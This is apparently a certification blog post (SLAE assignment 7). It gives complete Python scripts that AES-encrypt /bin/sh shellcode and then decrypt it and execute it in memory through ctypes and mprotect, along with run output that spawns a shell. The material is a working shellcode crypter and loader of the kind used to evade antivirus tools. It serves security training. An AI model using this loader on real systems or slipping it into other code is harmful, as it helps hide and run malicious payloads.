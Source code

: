This is the final stretch of this certification! What an amazing ride, let's finish off strong.

This final assignment asks of us to create a custom crypter, which will encrypt our payload (`/bin/sh`) and then our decrypter will take the encrypted payload, decrypt it, and then compile and run it. Let's jump into the explanation.

Crypter Script
---------------

So for this script, I decided to go with just using `AES` since I am using Python to write these scripts, and Python plays very well with `AES` encryption.

Let's take a look at the crypter script and explain what's going on.


```python
#!/usr/bin/python


######################
# Author: Anubis     #
# SLAE               #
######################




import pyaes

key = '0123456789abcdef0123456789abcdef' # "Random" key

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

counter = pyaes.Counter(initial_value = 100)
aes = pyaes.AESModeOfOperationCTR(key, counter = counter)


crypted_code = aes.encrypt(shellcode)
final_shellcode = ""
for x in bytearray(crypted_code) :
        final_shellcode += '\\x'
        final_shellcode += '%02x' % x

print "[+] Encrypted shellcode: %s"%(final_shellcode)
print "[+] Use this for the shellcode %s" % (final_shellcode.replace('\\x', ''))
```

So this script will take a "random" key, and then apply an `AES` encryption onto our `/bin/bash` shellcode. It will then print out the encrypted shellcode in hex format with prepending `\x` on each byte, and one with just pure hex.

Let's see this run.

```sh
anubis@slae:~/SLAE/Assignment_7$ python crypt.py 
[+] Encrypted shellcode: \xd3\xa0\xf8\xd2\xfa\xbf\x28\xfc\x6b\x0c\x0b\xc2\xee\x4c\x01\xd9\x69\xb8\xcd\x96\xb2\x28\x18\x5b\xb3
[+] Use this for the shellcode d3a0f8d2fabf28fc6b0c0bc2ee4c01d969b8cd96b228185bb3
anubis@slae:~/SLAE/Assignment_7$
```

So you can see that it prints out the two different types of encrypted shellcodes. Now let's take a look at the script that will decrypt and run this!


```python
#!/usr/bin/python
import sys
import pyaes
from ctypes import *


######################
# Author: Anubis     #
# SLAE               #
######################


key = '0123456789abcdef0123456789abcdef'

counter = pyaes.Counter(initial_value = 100)
aes = pyaes.AESModeOfOperationCTR(key, counter = counter)

crypted_code = sys.argv[1]

shellcode = aes.decrypt(crypted_code.decode("hex"))
final_shellcode = ""
for x in bytearray(shellcode):
        final_shellcode += '\\x'
        final_shellcode += '%02x' % x
print "[+] Decrypted shellcode: %s" % final_shellcode


libC = CDLL('libc.so.6')

shellCode = final_shellcode.replace('\\x', '').decode('hex')

code = c_char_p(shellCode)
sizeOfDecryptedShellcode = len(shellCode)


memAddrPointer = c_void_p(libC.valloc(sizeOfDecryptedShellcode))

codeMovePointer = memmove(memAddrPointer, code, sizeOfDecryptedShellcode)


protectMemory = libC.mprotect(memAddrPointer, sizeOfDecryptedShellcode, 7)

run = cast(memAddrPointer, CFUNCTYPE(c_void_p))

print "[+] Running shellcode now!"

run()
```
So this will establish the same type of cryptographic function (`AES`) with the same key and take an arguement of encrypted shellcode. So we take the output of the crypter script and feed it as the argument for this decrypter script. Then at the end, it simulates many `C` program functions and will run our shellcode within the Python script (which I found to be pretty cool!).

Let's see this in action!


```sh
anubis@slae:~/SLAE/Assignment_7$ python decrypt.py d3a0f8d2fabf28fc6b0c0bc2ee4c01d969b8cd96b228185bb3
[+] Decrypted shellcode: \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
[+] Running shellcode now!
$ id 
uid=1000(anubis) gid=1000(anubis) groups=1000(anubis),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ ls
crypt.py  decrypt.py
$ 
```

Awesome! It runs our shellcode, and we are done! Thank you so much to Vivek for the amazing training, I had such a good time and I am a bit sad that this is over. I learned so much, and I hope that I can now use this knowledge within my career.

<hr />

This blog post was created as per the requirements of the Security Tube Linux Assembly Expert certification.

Student ID: SLAE-1406

Please see [https://github.com/AnubisSec/SLAE](https://github.com/AnubisSec/SLAE) for all the source files mentioned on this site.

